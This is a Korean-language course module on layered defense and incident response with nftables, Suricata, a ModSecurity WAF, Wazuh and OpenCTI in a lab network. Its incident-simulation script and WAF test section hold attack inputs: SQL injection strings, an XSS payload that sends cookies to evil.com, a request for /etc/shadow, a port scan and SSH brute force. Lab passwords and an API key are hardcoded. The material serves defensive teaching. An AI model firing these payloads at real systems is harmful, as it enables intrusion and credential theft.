

# Week 14: 통합 보안 아키텍처

## 학습 목표
- FW, IPS, WAF, SIEM, CTI를 통합한 보안 아키텍처를 설계할 수 있다
- 트래픽이 각 보안 계층을 통과하는 흐름을 설명할 수 있다
- 통합 모니터링 체계를 구축할 수 있다
- 인시던트 대응 프로세스를 수행할 수 있다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | 이론 강의 (Part 1) | 강의 |
| 0:40-1:10 | 이론 심화 + 사례 분석 (Part 2) | 강의/토론 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | 실습 (Part 3) | 실습 |
| 2:00-2:40 | 심화 실습 + 도구 활용 (Part 4) | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 응용 실습 + Bastion 연동 (Part 5) | 실습 |
| 3:20-3:40 | 정리 + 과제 안내 | 정리 |

---

---

## 용어 해설 (보안 솔루션 운영 과목)

| 용어 | 영문 | 설명 | 비유 |
|------|------|------|------|
| **방화벽** | Firewall | 네트워크 트래픽을 규칙에 따라 허용/차단하는 시스템 | 건물 출입 통제 시스템 |
| **체인** | Chain (nftables) | 패킷 처리 규칙의 묶음 (input, forward, output) | 심사 단계 |
| **룰/규칙** | Rule | 특정 조건의 트래픽을 어떻게 처리할지 정의 | "택배 기사만 출입 허용" |
| **시그니처** | Signature | 알려진 공격 패턴을 식별하는 규칙 (IPS/AV) | 수배범 얼굴 사진 |
| **NFQUEUE** | Netfilter Queue | 커널에서 사용자 영역으로 패킷을 넘기는 큐 | 의심 택배를 별도 검사대로 보내는 것 |
| **FIM** | File Integrity Monitoring | 파일 변조 감시 (해시 비교) | CCTV로 금고 감시 |
| **SCA** | Security Configuration Assessment | 보안 설정 점검 (CIS 벤치마크 기반) | 건물 안전 점검표 |
| **Active Response** | Active Response | 탐지 시 자동 대응 (IP 차단 등) | 침입 감지 시 자동 잠금 |
| **디코더** | Decoder (Wazuh) | 로그를 파싱하여 구조화하는 규칙 | 외국어 통역사 |
| **CRS** | Core Rule Set (ModSecurity) | 범용 웹 공격 탐지 규칙 모음 | 표준 보안 검사 매뉴얼 |
| **CTI** | Cyber Threat Intelligence | 사이버 위협 정보 (IOC, TTPs) | 범죄 정보 공유 시스템 |
| **IOC** | Indicator of Compromise | 침해 지표 (악성 IP, 해시, 도메인 등) | 수배범의 지문, 차량번호 |
| **STIX** | Structured Threat Information eXpression | 위협 정보 표준 포맷 | 범죄 보고서 표준 양식 |
| **TAXII** | Trusted Automated eXchange of Intelligence Information | CTI 자동 교환 프로토콜 | 경찰서 간 수배 정보 공유 시스템 |
| **NAT** | Network Address Translation | 내부 IP를 외부 IP로 변환 | 회사 대표번호 (내선→외선) |
| **masquerade** | masquerade (nftables) | 나가는 패킷의 소스 IP를 게이트웨이 IP로 변환 | 회사 이름으로 편지 보내기 |

---

## 1. 심층 방어 (Defense in Depth)

하나의 보안 장비만으로는 충분하지 않다. **여러 계층**의 보안을 겹쳐서 구성한다.

```
외부 인터넷
  |
  v
[Layer 1] 네트워크 방화벽 (nftables)   -- IP/포트 필터링
  secu (10.20.30.1)
  |
  v
[Layer 2] IPS (Suricata)              -- 페이로드 검사 (L3~L7)
  secu (10.20.30.1)
  |
  v
[Layer 3] WAF (Apache+ModSecurity)    -- HTTP 공격 검사 (L7)
  web (10.20.30.80)
  |
  v
[Layer 4] 애플리케이션 (JuiceShop)
  web (10.20.30.80)

  (모든 계층의 로그)

[Layer 5] SIEM (Wazuh)                -- 통합 로그 분석
  siem (10.20.30.100)
  |
  v
[Layer 6] CTI (OpenCTI)               -- 위협 인텔리전스
  siem (10.20.30.100:9400)
```

---

## 2. 실습 인프라 전체 구성도

> **이 실습을 왜 하는가?**
> "통합 보안 아키텍처" — 이 주차의 핵심 기술을 실제 서버 환경에서 직접 실행하여 체험한다.
> 보안 솔루션 운영 분야에서 이 기술은 실무의 핵심이며, 실습을 통해
> 명령어의 의미, 결과 해석 방법, 보안 관점에서의 판단 기준을 익힌다.
>
> **이걸 하면 무엇을 알 수 있는가?**
> - 이 기술이 실제 시스템에서 어떻게 동작하는지 직접 확인
> - 정상과 비정상 결과를 구분하는 눈을 기름
> - 실무에서 바로 활용할 수 있는 명령어와 절차를 체득
>
> **주의:** 모든 실습은 허가된 실습 환경(10.20.30.0/24)에서만 수행한다.



---

## 3. 환경 접속 및 전체 상태 확인

### 3.1 전체 서버 상태 점검 스크립트

> **실습 목적**: 방화벽, IPS, WAF, SIEM을 통합한 보안 아키텍처의 전체 상태를 점검한다
>
> **배우는 것**: 다층 보안 구조에서 각 솔루션의 역할과 연동 관계를 이해하고, 전체 가시성을 확보하는 방법을 배운다
>
> **결과 해석**: 모든 보안 솔루션이 active이고 로그가 SIEM에 수집되면 통합 보안 아키텍처가 정상 동작한다
>
> **실전 활용**: 보안 아키텍트는 다층 방어(Defense-in-Depth) 원칙에 따라 보안 솔루션을 설계하고 통합한다

```bash
cat << 'CHECKEOF' > /tmp/check_all.sh
#!/bin/bash
echo "=== 전체 보안 인프라 상태 점검 ==="
echo ""

# 1. secu 서버
echo "--- secu (10.20.30.1) ---"
echo -n "  SSH: "
ssh ccc@10.20.30.1 "echo OK" 2>/dev/null || echo "FAIL"  # 비밀번호 자동입력 SSH

echo -n "  nftables: "
ssh ccc@10.20.30.1 "echo 1 | sudo -S nft list tables 2>/dev/null | wc -l" 2>/dev/null  # 비밀번호 자동입력 SSH

echo -n "  Suricata: "
ssh ccc@10.20.30.1 "echo 1 | sudo -S systemctl is-active suricata 2>/dev/null" 2>/dev/null  # 비밀번호 자동입력 SSH

echo -n "  Wazuh Agent: "
ssh ccc@10.20.30.1 "echo 1 | sudo -S systemctl is-active wazuh-agent 2>/dev/null" 2>/dev/null  # 비밀번호 자동입력 SSH

echo ""

# 2. web 서버
echo "--- web (10.20.30.80) ---"
echo -n "  SSH: "
ssh ccc@10.20.30.80 "echo OK" 2>/dev/null || echo "FAIL"  # 비밀번호 자동입력 SSH

echo -n "  Apache+ModSecurity: "
ssh ccc@10.20.30.80 "echo 1 | sudo -S systemctl is-active apache2 2>/dev/null" 2>/dev/null  # 비밀번호 자동입력 SSH

echo -n "  HTTP: "
curl -s -o /dev/null -w "%{http_code}" --connect-timeout 3 http://10.20.30.80/ 2>/dev/null || echo "FAIL"  # silent 모드
echo ""

echo -n "  Wazuh Agent: "
ssh ccc@10.20.30.80 "echo 1 | sudo -S systemctl is-active wazuh-agent 2>/dev/null" 2>/dev/null  # 비밀번호 자동입력 SSH

echo ""

# 3. siem 서버
echo "--- siem (10.20.30.100) ---"
echo -n "  SSH: "
ssh ccc@10.20.30.100 "echo OK" 2>/dev/null || echo "FAIL"  # 비밀번호 자동입력 SSH

echo -n "  Wazuh Manager: "
ssh ccc@10.20.30.100 "echo 1 | sudo -S systemctl is-active wazuh-manager 2>/dev/null" 2>/dev/null  # 비밀번호 자동입력 SSH

echo -n "  Wazuh Dashboard: "
ssh ccc@10.20.30.100 "echo 1 | sudo -S systemctl is-active wazuh-dashboard 2>/dev/null" 2>/dev/null  # 비밀번호 자동입력 SSH

echo -n "  OpenCTI: "
curl -s -o /dev/null -w "%{http_code}" --connect-timeout 3 http://10.20.30.100:9400/health 2>/dev/null || echo "FAIL"  # silent 모드
echo ""

echo ""
echo "=== 점검 완료 ==="
CHECKEOF
chmod +x /tmp/check_all.sh                             # 파일 권한 변경
bash /tmp/check_all.sh
```

**예상 출력:**
```
=== 전체 보안 인프라 상태 점검 ===

--- secu (10.20.30.1) ---
  SSH: OK
  nftables: 3
  Suricata: active
  Wazuh Agent: active

--- web (10.20.30.80) ---
  SSH: OK
  Apache+ModSecurity: Up 3 days
  HTTP: 200
  Wazuh Agent: active

--- siem (10.20.30.100) ---
  SSH: OK
  Wazuh Manager: active
  Wazuh Dashboard: active
  OpenCTI: 200

=== 점검 완료 ===
```

---

## 4. 트래픽 흐름 분석

### 4.1 정상 HTTP 요청의 경로

```
클라이언트 --> [nftables] --> [Suricata] --> [Apache+ModSecurity WAF] --> [JuiceShop]
                  |              |                |                  |
              방화벽 로그     eve.json         access.log          app.log
                  +------------------------------+
                                 |
                            Wazuh SIEM
                            (통합 분석)
```

### 4.2 SQL Injection 공격의 경로

```
공격자: curl "http://target/?id=1 UNION SELECT 1,2,3"

1. nftables → 80/tcp 허용 → 통과
2. Suricata → content:"union select" 매칭 → alert (또는 drop)
3. Apache+ModSecurity → CRS 942xxx 룰 매칭 → 403 Forbidden
4. JuiceShop → (Apache+ModSecurity에서 차단되어 도달하지 않음)
5. Wazuh → Suricata alert + Apache+ModSecurity 403 수집 → 상관분석 → 알림
6. OpenCTI → 공격자 IP를 IOC로 등록
```

### 4.3 실제 트래픽 추적 실습

```bash
# 공격 트래픽 발생
curl -s "http://10.20.30.80/?id=1%20UNION%20SELECT%201,2,3" > /dev/null  # silent 모드

# 1. nftables 로그 확인 (secu)
ssh ccc@10.20.30.1 \
  "echo 1 | sudo -S journalctl -k --since '1 min ago' --grep='NFT' --no-pager" 2>/dev/null | tail -5

# 2. Suricata 로그 확인 (secu)
ssh ccc@10.20.30.1 \
  "echo 1 | sudo -S tail -5 /var/log/suricata/fast.log" 2>/dev/null

# 3. WAF 로그 확인 (web)
ssh ccc@10.20.30.80 \
  "echo 1 | sudo -S tail -5 /var/log/apache2/error.log" 2>/dev/null

# 4. Wazuh 알림 확인 (siem)
ssh ccc@10.20.30.100 \
  "echo 1 | sudo -S tail -5 /var/ossec/logs/alerts/alerts.json" 2>/dev/null | \
  python3 -c "                                         # Python 코드 실행
import sys, json
for line in sys.stdin:                                 # 반복문 시작
    try:
        e = json.loads(line)
        r = e.get('rule',{})
        print(f\"[{r.get('level','')}] {r.get('description','')}\")
    except: pass
"
```

---

## 5. 각 계층별 역할과 한계

| 계층 | 탐지 가능 | 탐지 불가 |
|------|-----------|-----------|
| nftables | 비인가 IP/포트 접근 | 허용된 포트의 악성 페이로드 |
| Suricata | 알려진 공격 패턴 (시그니처) | 제로데이, 암호화 트래픽 |
| Apache+ModSecurity | SQL Injection, XSS 등 웹 공격 | HTTP 외 프로토콜 공격 |
| Wazuh | 호스트 이상 행위, 파일 변조 | 네트워크 공격 (Agent 없는 호스트) |
| OpenCTI | 알려진 위협 행위자/IOC | 미등록 위협 |

**교훈**: 하나의 장비로 모든 공격을 막을 수 없다. **심층 방어**가 필수이다.

---

## 6. 통합 알림 체계

### 6.1 Wazuh 중심 통합

```
nftables 로그            --+
Suricata eve.json        --+
Apache+ModSecurity 로그  --+--> Wazuh Agent --> Wazuh Manager
시스템 로그              --+                         |
인증 로그               --+                     상관분석 + 알림
                                                     |
                                                Dashboard / API
```

### 6.2 상관분석 룰 예시

```xml
<!-- 다중 계층 공격 탐지: Suricata alert + WAF block 동시 발생 -->
<rule id="100060" level="12" timeframe="60">
  <if_sid>86601</if_sid>  <!-- Suricata alert -->
  <same_source_ip />
  <description>다중 계층 공격 탐지: IPS + WAF 동시 알림</description>
  <group>correlation,attack,</group>
</rule>
```

### 6.3 Wazuh Active Response 통합

```xml
<!-- 다중 계층 공격 감지 시 자동 차단 -->
<active-response>
  <command>firewall-drop</command>
  <location>defined-agent</location>
  <agent_id>001</agent_id>  <!-- secu 서버 -->
  <rules_id>100060</rules_id>
  <timeout>3600</timeout>
</active-response>
```

---

## 7. 통합 대시보드

### 7.1 Wazuh Dashboard에서 통합 뷰

1. **Security Events**: 전체 보안 이벤트 타임라인
2. **MITRE ATT&CK**: 공격 기법 매핑
3. **Agent별 현황**: 서버별 위협 수준

### 7.2 주요 모니터링 지표

| 지표 | 출처 | 정상 범위 |
|------|------|-----------|
| 방화벽 차단 수/시간 | nftables | 기준선 대비 ±20% |
| IPS 알림 수/시간 | Suricata | 환경에 따라 다름 |
| WAF 차단 수/시간 | Apache+ModSecurity | 환경에 따라 다름 |
| 인증 실패 수/시간 | Wazuh | < 10/시간 |
| FIM 변경 수/일 | Wazuh | 계획된 변경만 |
| High severity 알림 | Wazuh | 0에 가까워야 함 |

---

## 8. 인시던트 대응 프로세스

### 8.1 인시던트 대응 6단계

```
1. 준비 (Preparation)
   --> 보안 장비 구성, 대응 계획 수립

2. 식별 (Identification)
   --> Wazuh 알림, Suricata 탐지, WAF 차단 로그 분석

3. 억제 (Containment)
   --> nftables IP 차단, Active Response

4. 제거 (Eradication)
   --> 악성코드 제거, 취약점 패치

5. 복구 (Recovery)
   --> 서비스 복원, 설정 확인

6. 교훈 (Lessons Learned)
   --> IOC 등록, 룰 업데이트, 보고서 작성
```

### 8.2 인시던트 대응 실습 시나리오

```bash
echo "=== 인시던트 시뮬레이션 ==="

# 1단계: 공격 발생 (여러 유형)
echo "[공격 1] 포트 스캔"
for port in 22 80 443 3306 5432 8080 8443 9200; do     # 반복문 시작
  nc -zv -w 1 10.20.30.1 $port 2>/dev/null             # 네트워크 연결 생성
done

echo "[공격 2] SQL Injection"
curl -s "http://10.20.30.80/?id=1%27%20OR%20%271%27=%271" > /dev/null  # silent 모드
curl -s "http://10.20.30.80/?id=1%20UNION%20SELECT%20username,password%20FROM%20users" > /dev/null  # silent 모드

echo "[공격 3] XSS"
curl -s "http://10.20.30.80/?search=%3Cscript%3Edocument.location=%27http://evil.com/%27%2Bdocument.cookie%3C/script%3E" > /dev/null  # silent 모드

echo "[공격 4] 디렉터리 트래버설"
curl -s "http://10.20.30.80/../../../../etc/shadow" > /dev/null  # silent 모드

echo "[공격 5] 브루트포스"
for i in $(seq 1 5); do                                # 반복문 시작
  sshpass -p wrong ssh -o StrictHostKeyChecking=no -o ConnectTimeout=1 admin@10.20.30.1 2>/dev/null  # 비밀번호 자동입력 SSH
done

echo "=== 공격 완료. 로그를 분석하세요. ==="
```

### 8.3 대응 절차

원격 서버에 접속하여 명령을 실행합니다.

```bash
# 1. Wazuh에서 최근 고심각도 알림 확인
ssh ccc@10.20.30.100 \
  "echo 1 | sudo -S cat /var/ossec/logs/alerts/alerts.json" 2>/dev/null | \
  python3 -c "                                         # Python 코드 실행
import sys, json
for line in sys.stdin:                                 # 반복문 시작
    try:
        e = json.loads(line)
        r = e.get('rule',{})
        if int(r.get('level',0)) >= 7:
            print(f\"[Level {r['level']:>2}] {r['id']} | {r['description']} | src: {e.get('data',{}).get('srcip', e.get('agent',{}).get('ip','?'))}\")
    except: pass
" | tail -20

# 2. 공격자 IP 식별
echo "=== 의심 IP 목록 ==="

# 3. 긴급 차단 (nftables)
ssh ccc@10.20.30.1 \
  "echo 1 | sudo -S nft add element inet filter blocklist '{ 10.20.30.XXX }'" 2>/dev/null

# 4. IOC 등록 (OpenCTI)
echo "OpenCTI에 공격자 IP를 IOC로 등록하세요"

# 5. 보고서 작성
echo "인시던트 보고서를 작성하세요"
```

---

## 9. 운영 체크리스트 (일일/주간/월간)

### 9.1 일일 점검

```bash
# 자동화 스크립트
cat << 'DAILYEOF' > /tmp/daily_check.sh
#!/bin/bash
echo "=== 일일 보안 점검 ($(date '+%Y-%m-%d')) ==="

echo ""
echo "[1] 서비스 상태"
bash /tmp/check_all.sh 2>/dev/null

echo ""
echo "[2] Suricata 커널 드롭"
ssh ccc@10.20.30.1 \
  "echo 1 | sudo -S grep 'kernel_drops' /var/log/suricata/stats.log | tail -1" 2>/dev/null

echo ""
echo "[3] 최근 24시간 고심각도 알림 (Level >= 10)"
ssh ccc@10.20.30.100 \
  "echo 1 | sudo -S cat /var/ossec/logs/alerts/alerts.json" 2>/dev/null | \
  python3 -c "                                         # Python 코드 실행
import sys, json
cnt = 0
for line in sys.stdin:                                 # 반복문 시작
    try:
        e = json.loads(line)
        if int(e.get('rule',{}).get('level',0)) >= 10:
            cnt += 1
    except: pass
print(f'  고심각도 알림: {cnt}건')
"

echo ""
echo "[4] 디스크 사용량"
for srv in 10.20.30.1 10.20.30.80 10.20.30.100; do     # 반복문 시작
  echo -n "  $srv: "
  ssh ccc@$srv "df -h / | tail -1 | awk '{print \$5}'" 2>/dev/null  # 비밀번호 자동입력 SSH
done

echo ""
echo "=== 점검 완료 ==="
DAILYEOF
chmod +x /tmp/daily_check.sh                           # 파일 권한 변경
bash /tmp/daily_check.sh
```

### 9.2 주간 점검

- 룰 업데이트 (`suricata-update`)
- 오탐 목록 검토 및 처리
- SCA 점검 결과 검토
- CTI IOC 업데이트

### 9.3 월간 점검

- 보안 아키텍처 검토
- 룰 최적화 (성능, 오탐)
- 침투 테스트 결과 반영
- 인시던트 대응 훈련

---

## 10. 실습 과제

### 과제 1: 전체 상태 점검

1. 전체 점검 스크립트를 실행하여 모든 서비스가 정상인지 확인
2. 비정상인 서비스가 있으면 원인을 파악하고 복구

### 과제 2: 통합 공격 탐지

1. 인시던트 시뮬레이션 스크립트를 실행
2. 각 보안 계층(nftables, Suricata, Apache+ModSecurity, Wazuh)에서 로그를 수집
3. 공격 타임라인을 재구성하라

### 과제 3: 대응 보고서 작성

인시던트 대응 보고서를 작성하라:
- 탐지 시간, 공격 유형, 공격자 IP
- 각 보안 계층의 탐지/차단 현황
- 수행한 대응 조치
- 향후 개선 사항

---

## 11. 핵심 정리

| 개념 | 설명 |
|------|------|
| 심층 방어 | 여러 보안 계층을 겹쳐 구성 |
| FW → IPS → WAF → SIEM | 트래픽이 거치는 보안 계층 순서 |
| 상관분석 | 여러 소스의 이벤트를 연결하여 분석 |
| Active Response | 알림 기반 자동 대응 |
| 인시던트 대응 6단계 | 준비→식별→억제→제거→복구→교훈 |
| 일일 점검 | 서비스 상태, 고심각도 알림, 드롭 |

---

## 다음 주 예고

Week 15는 **기말고사**이다:
- 전체 보안 인프라를 처음부터 구축하는 실기 시험
- nftables + Suricata + WAF + Wazuh + OpenCTI 통합

---

> **실습 환경 검증 완료** (2026-03-28): nftables(inet filter+ip nat), Suricata 8.0.4(65K룰), Apache+ModSecurity(:8082→403), Wazuh v4.11.2(local_rules 62줄), OpenCTI(200)

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### nftables
> **역할:** Linux 커널 기반 상태 기반 방화벽 (iptables 후속)  
> **실행 위치:** `secu (10.20.30.1)`  
> **접속/호출:** `sudo nft ...` CLI + `/etc/nftables.conf` 영속 설정

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/etc/nftables.conf` | 부팅 시 로드되는 영속 룰셋 |
| `/var/log/kern.log` | `log prefix` 룰의 패킷 드롭 로그 |

**핵심 설정·키**

- `table inet filter` — IPv4/IPv6 공통 필터 테이블
- `chain input { policy drop; }` — 기본 차단 정책
- `ct state established,related accept` — 응답 트래픽 허용

**로그·확인 명령**

- `journalctl -t kernel -g 'nft'` — 룰에서 `log prefix` 지정한 패킷 드롭

**UI / CLI 요점**

- `sudo nft list ruleset` — 현재 로드된 전체 룰 출력
- `sudo nft -f /etc/nftables.conf` — 설정 파일 재적용
- `sudo nft list set inet filter blacklist` — 집합(set) 내용 조회

> **해석 팁.** 룰은 **위→아래 첫 매칭 우선**. `accept`는 해당 체인만 종료, 상위 훅은 계속 평가된다. 변경 후 `nft list ruleset`로 실제 적용 여부 확인.

### Suricata IDS/IPS
> **역할:** 시그니처 기반 네트워크 침입 탐지/차단 엔진  
> **실행 위치:** `secu (10.20.30.1)`  
> **접속/호출:** `systemctl status suricata` / `suricatasc` 소켓 / `suricata -T`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/etc/suricata/suricata.yaml` | 메인 설정 (HOME_NET, af-packet, rule-files) |
| `/etc/suricata/rules/local.rules` | 사용자 커스텀 탐지 룰 |
| `/var/lib/suricata/rules/suricata.rules` | `suricata-update` 병합 룰 |
| `/var/log/suricata/eve.json` | JSON 이벤트 (alert/flow/http/dns/tls) |
| `/var/log/suricata/fast.log` | 알림 1줄 텍스트 로그 |
| `/var/log/suricata/stats.log` | 엔진 성능 통계 |

**핵심 설정·키**

- `HOME_NET` — 내부 대역 — 틀리면 내부/외부 판별 실패
- `af-packet.interface` — 캡처 NIC — 트래픽이 흐르는 인터페이스와 일치해야 함
- `rule-files: ["local.rules"]` — 로드할 룰 파일 목록

**로그·확인 명령**

- `jq 'select(.event_type=="alert")' eve.json` — 알림만 추출
- `grep 'Priority: 1' fast.log` — 고위험 탐지만 빠르게 확인

**UI / CLI 요점**

- `suricata -T -c /etc/suricata/suricata.yaml` — 설정/룰 문법 검증
- `suricatasc -c stats` — 실시간 통계 조회 (런타임 소켓)
- `suricata-update` — 공개 룰셋 다운로드·병합

> **해석 팁.** `stats.log`의 `kernel_drops > 0`이면 누락 발생 → `af-packet threads` 증설. 커스텀 룰 `sid`는 **1,000,000 이상** 할당 권장.

### BunkerWeb WAF (ModSecurity CRS)
> **역할:** Nginx 기반 웹 방화벽 — OWASP Core Rule Set 통합  
> **실행 위치:** `web (10.20.30.80)`  
> **접속/호출:** 리스닝 포트 `:8082` (원본 :80/:3000 프록시)

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/etc/bunkerweb/variables.env` | 서버 단위 기본 변수 |
| `/etc/bunkerweb/configs/modsec/` | 커스텀 ModSecurity 룰 |
| `/var/log/bunkerweb/modsec_audit.log` | ModSec 감사 로그(차단된 요청) |
| `/var/log/bunkerweb/access.log` | 정상 요청 로그 |

**핵심 설정·키**

- `USE_MODSECURITY=yes` — ModSec 엔진 활성화
- `USE_MODSECURITY_CRS=yes` — OWASP CRS 활성화
- `MODSECURITY_CRS_VERSION=4` — CRS 버전

**로그·확인 명령**

- `grep 'Matched Phase' modsec_audit.log` — 룰에 매칭된 단계 확인
- `grep 'HTTP/1.1" 403' access.log` — WAF가 차단한 요청

**UI / CLI 요점**

- `curl -i http://10.20.30.80:8082/?id=1' OR '1'='1` — SQLi 페이로드 테스트
- 응답 코드 `403 Forbidden` — WAF 차단 정상 동작

> **해석 팁.** 오탐 시 `SecRuleRemoveById 942100` 방식으로 특정 룰만 제외. 차단 판정은 **점수 임계값**(기본 5) 기준이므로 단일 룰 1건은 차단되지 않을 수 있다.

### Wazuh SIEM (4.11.x)
> **역할:** 에이전트 기반 로그·FIM·SCA 통합 분석 플랫폼  
> **실행 위치:** `siem (10.20.30.100)`  
> **접속/호출:** Dashboard `https://10.20.30.100` (admin/admin), Manager API `:55000`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/var/ossec/etc/ossec.conf` | Manager 메인 설정 (원격, 전송, syscheck 등) |
| `/var/ossec/etc/rules/local_rules.xml` | 커스텀 룰 (id ≥ 100000) |
| `/var/ossec/etc/decoders/local_decoder.xml` | 커스텀 디코더 |
| `/var/ossec/logs/alerts/alerts.json` | 실시간 JSON 알림 스트림 |
| `/var/ossec/logs/archives/archives.json` | 전체 이벤트 아카이브 |
| `/var/ossec/logs/ossec.log` | Manager 데몬 로그 |
| `/var/ossec/queue/fim/db/fim.db` | FIM 기준선 SQLite DB |

**핵심 설정·키**

- `<rule id='100100' level='10'>` — 커스텀 룰 — level 10↑은 고위험
- `<syscheck><directories>...` — FIM 감시 경로
- `<active-response>` — 자동 대응 (firewall-drop, restart)

**로그·확인 명령**

- `jq 'select(.rule.level>=10)' alerts.json` — 고위험 알림만
- `grep ERROR ossec.log` — Manager 오류 (룰 문법 오류 등)

**UI / CLI 요점**

- Dashboard → Security events — KQL 필터 `rule.level >= 10`
- Dashboard → Integrity monitoring — 변경된 파일 해시 비교
- `/var/ossec/bin/wazuh-logtest` — 룰 매칭 단계별 확인 (Phase 1→3)
- `/var/ossec/bin/wazuh-analysisd -t` — 룰·설정 문법 검증

> **해석 팁.** Phase 3에서 원하는 `rule.id`가 떠야 커스텀 룰 정상. `local_rules.xml` 수정 후 `systemctl restart wazuh-manager`, 문법 오류가 있으면 **분석 데몬 전체가 기동 실패**하므로 `-t`로 먼저 검증.

### OpenCTI (Threat Intelligence Platform)
> **역할:** STIX 2.1 기반 위협 인텔리전스 통합 관리  
> **실행 위치:** `siem (10.20.30.100)`  
> **접속/호출:** UI `http://10.20.30.100:8080`, GraphQL `:8080/graphql`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/opt/opencti/config/default.json` | 포트·DB·ElasticSearch 접속 설정 |
| `/opt/opencti-connectors/` | MITRE/MISP/AlienVault 등 커넥터 |
| `docker compose ps (프로젝트 경로)` | ElasticSearch/RabbitMQ/Redis 상태 |

**핵심 설정·키**

- `app.admin_email/password` — 초기 관리자 계정 — 변경 필수
- `connectors: opencti-connector-mitre` — MITRE ATT&CK 동기화

**로그·확인 명령**

- `docker logs opencti` — 메인 플랫폼 로그
- `docker logs opencti-worker` — 백엔드 인제스트 워커

**UI / CLI 요점**

- Analysis → Reports — 위협 보고서 원문과 IOC
- Events → Indicators — IOC 검색 (hash/ip/domain)
- Knowledge → Threat actors — 위협 행위자 프로파일과 TTP
- Data → Connectors — 외부 소스 동기화 상태

> **해석 팁.** IOC 1건을 **관측(Observable)** → **지표(Indicator)** → **보고서(Report)**로 승격해 컨텍스트를 쌓아야 헌팅에 활용 가능. STIX relationship(`uses`, `indicates`)이 분석의 핵심.

---

## 실제 사례 (WitFoo Precinct 6)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> Sanitized — RFC5737 TEST-NET / ORG-NNNN / HOST-NNNN 으로 익명화됨.

### Case 1: `T1041 (Data Theft)` 패턴

```
incident_id=d45fc680-cb9b-11ee-9d8c-014a3c92d0a7 mo_name=Data Theft
red=172.25.238.143 blue=100.64.5.119 suspicion=0.25
```

**해석**: 위 데이터는 실제 incident 의 sanitized 기록이다. `T1041 (Data Theft)` MITRE technique 의 행동 패턴이며, 본 강의의 학습 주제와 동일한 운영 맥락에서 발생한다.

### Case 2: `T1041 (Data Theft)` 패턴

```
incident_id=c6f8acf0-df14-11ee-9778-4184b1db151c mo_name=Data Theft
red=100.64.3.190 blue=100.64.3.183 suspicion=0.25
```

**해석**: 위 데이터는 실제 incident 의 sanitized 기록이다. `T1041 (Data Theft)` MITRE technique 의 행동 패턴이며, 본 강의의 학습 주제와 동일한 운영 맥락에서 발생한다.

